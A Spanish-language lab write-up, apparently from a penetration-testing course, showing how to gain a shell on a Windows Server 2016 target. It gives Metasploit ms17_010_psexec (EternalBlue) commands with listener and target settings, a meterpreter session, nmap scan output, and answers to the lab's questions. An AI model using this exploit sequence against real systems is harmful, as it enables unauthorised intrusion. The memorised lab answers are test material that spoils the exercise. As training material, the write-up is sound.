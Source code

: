 Intentaremos lanzar un exploit haciendo uso del *psexec*.
Lanzamos un:
```
use exploit/windows/smb/ms17_010_psexec
```

Establecemos los parámetros obligatorios y lanzamos el exploit:
```
set LHOST 10.10.14.12
set RHOST 10.129.201.97
set LPORT 4444
run
```

Nos devuelve una sesión de *meterpreter*, pudiendo con esta tener la posibilidad de ejecutar:
```shell-session
meterpreter > shell
meterpreter > getuid
```

----
**QUESTIONS
TARGET: 10.129.201.97**
**1.  What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')**
Respuesta: *.bat*


**2. What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)**
Respuesta: *MS17-010*                   (Es EternalBlue)

**3. Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:**

Lanzamos un escaneo básico con: 
```
sudo nmap --open --min-rate 2000 10.129.201.97 -Pn -n -sSCV -oA target
```

Y obtengo como respuesta: 
```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 10.129.201.97 - /
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h19m59s, deviation: 4h02m29s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELLS-WINBLUE
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-09-04T03:18:24-07:00
```